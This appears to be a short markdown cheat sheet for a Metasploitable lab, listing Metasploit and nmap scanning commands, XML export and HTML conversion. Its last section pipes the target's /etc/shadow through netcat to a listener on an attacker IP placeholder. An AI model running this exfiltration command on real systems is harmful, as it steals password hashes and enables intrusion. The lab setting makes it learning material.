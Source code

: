 ## metasploit commands
### run nmap
```sh
db_nmap -sV 192.168.2.2
```
### export xml
```sh
db_export -f xml -a ./metasploitable.xml
```
### convert file to html
```sh
xsltproc trasnform.xsl metasploitable.xml > metasploitable.html
```

### send secret config file to VM
#### on the attacker machine
```
nc -l -p 1234 > passwd.txt
```
#### on the target machine
```sh
cat /etc/shadow | nc <attacker_ip> 1234
```